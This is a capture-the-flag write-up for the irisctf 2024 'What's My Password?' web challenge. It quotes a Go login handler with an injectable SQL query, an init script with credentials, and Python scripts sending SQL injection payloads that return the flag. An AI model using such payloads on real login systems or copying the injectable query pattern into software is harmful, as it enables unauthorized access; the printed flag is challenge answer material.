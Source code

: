 
<!DOCTYPE html>
<html>
<head>
    <title>
        What's My Password? irisctf 2024 Challenge Writeup
    </title>
</head>
<body>
    <h1>What's My Password? irisctf 2024 Challenge Writeup</h1>

    <h2>Challenge Description</h2>
    <p> What's My Password?
50 Points
[baby] Oh no! Skat forgot their password (again)!

 

Can you help them find it?

https://whats-my-password-web.chal.irisc.tf
whats-my-password.tar.gz

By:
User
 
</p>

    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
    <ol>
 
    Starting off I took a look at the provided files.

CREATE DATABASE uwu;
use uwu;

CREATE TABLE IF NOT EXISTS users ( username text, password text );
INSERT INTO users ( username, password ) VALUES ( "root", "IamAvEryC0olRootUsr");
INSERT INTO users ( username, password ) VALUES ( "skat", "fakeflg{fake_flag}");
INSERT INTO users ( username, password ) VALUES ( "coded", "ilovegolang42");

CREATE USER 'readonly_user'@'%' IDENTIFIED BY 'password';
GRANT SELECT ON uwu.users TO 'readonly_user'@'%';
FLUSH PRIVILEGES;
Seems like this is the entry-point for the flag in form of a users password. Knowing this I took a look at the service hosting the website and API endpoints.

package main

import (
    "database/sql"
    "encoding/json"
    "fmt"
    "net/http"
    "os"
    "os/signal"
    "regexp"
    "syscall"

    _ "github.com/go-sql-driver/mysql"
)

var DB *sql.DB
var Mux = http.NewServeMux()
var UsernameRegex = `[^a-z0-9]`

type Account struct {
    Username string `json:"username"`
    Password string `json:"password"`
}

func startWeb() {
    fmt.Println("Starting very secure login panel (promise)")

    fs := http.FileServer(http.Dir("/home/user/web"))
    Mux.Handle("/", fs)

    Mux.HandleFunc("/api/login", func(w http.ResponseWriter, r *http.Request) {
        if r.Method != http.MethodPost {
            w.WriteHeader(http.StatusMethodNotAllowed)
            return
        }

        var input Account

        decoder := json.NewDecoder(r.Body)
        decoder.Decode(&input)

        if input.Username == "" {
            w.WriteHeader(http.StatusBadRequest)
            w.Write([]byte("Missing Username"))
            return
        }
        if input.Password == "" {
            w.WriteHeader(http.StatusBadRequest)
            w.Write([]byte("Missing Password"))
            return
        }

        matched, err := regexp.MatchString(UsernameRegex, input.Username)
        if err != nil {
            w.WriteHeader(http.StatusInternalServerError)
            return
        }

        if matched {
            w.WriteHeader(http.StatusBadRequest)
            w.Write([]byte("Username can only contain lowercase letters and numbers."))
            return
        }

        qstring := fmt.Sprintf("SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"", input.Username, input.Password)

        query, err := DB.Query(qstring)
        if err != nil {
            w.WriteHeader(http.StatusInternalServerError)
            fmt.Println(err)
            return
        }
        defer query.Close()

        if !query.Next() {
            w.WriteHeader(http.StatusUnauthorized)
            w.Write([]byte("Invalid username / password combination!"))
            return
        }

        var result Account
        err = query.Scan(&result.Username, &result.Password)
        if err != nil {
            w.WriteHeader(http.StatusInternalServerError)
            fmt.Println(err)
            return
        }
        encoded, err := json.Marshal(result)
        if err != nil {
            w.WriteHeader(http.StatusInternalServerError)
            fmt.Println(err)
            return
        }

        w.Write(encoded)
    })

    http.ListenAndServe(":1337", Mux)
}

func main() {
    fmt.Println("Establishing connection to MySql")
    db, err := sql.Open("mysql", "readonly_user:password@tcp(127.0.0.1:3306)/uwu")
    if err != nil {
        fmt.Println(err)
        return
    }
    DB = db

    defer DB.Close()

    startWeb()

    sigChan := make(chan os.Signal, 1)
    signal.Notify(sigChan, syscall.SIGINT, syscall.SIGTERM)
    <-sigChan
}
The important thing to notice here is the SQL-injection vulnerability.

qstring := fmt.Sprintf("SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"", input.Username, input.Password)
Knowing this I took a look at the behavior of the endpoint, for this purpose I coded this small python script.

import requests, json

url = "https://whats-my-password-web.chal.irisc.tf/api/login"

data = {
    "username": "root",
    "password": 'IamAvEryC0olRootUsr'
}

headers = {
    "Content-Type": "application/json"
}

response = requests.post(url, data=json.dumps(data), headers=headers)

print(response.text)
I used the credentials I found in the sql init file.

kali@kali python3 req.py
{"username":"root","password":"IamAvEryC0olRootUsr"}
Seems like we got our credentials back. With this information I concluded that we need to use an SQL-injection to login as the user which has the flag as password.

import requests, json

url = "https://whats-my-password-web.chal.irisc.tf/api/login"

data = {
    "username": "skat",
    "password": '" or 1=1; -- '
}

headers = {
    "Content-Type": "application/json"
}

response = requests.post(url, data=json.dumps(data), headers=headers)

print(response.text)
It seems that this worked but didn't get us the flag.

kali@kali python3 req.py
{"username":"root","password":"IamAvEryC0olRootUsr"}
Getting the credentials from user root back I concluded that if we use " or 1=1; -- we retrieve all credentials stored and it only returns either the first or last of those credentials which in our case is user root. Knowing this I changed the SQL-injection a bit.

import requests, json

url = "https://whats-my-password-web.chal.irisc.tf/api/login"

data = {
    "username": "coded",
    "password": '" or username = "skat"; -- '
}

headers = {
    "Content-Type": "application/json"
}

response = requests.post(url, data=json.dumps(data), headers=headers)

print(response.text)
Using this I returned only user skat which obtains the flag and concludes this writeup.

kali@kali python3 req.py
{"username":"skat","password":"irisctf{my_p422W0RD_1S_SQl1}"}
    </ol>
<br>
    <h2>Flag</h2>
    <p class="flag">irisctf{my_p422W0RD_1S_SQl1}
</p>

    <h2>Conclusion</h2>
    <p>this is a     easy chanllenge for web exploitation  and sql injection vulnerability </p>
</body>
</html>
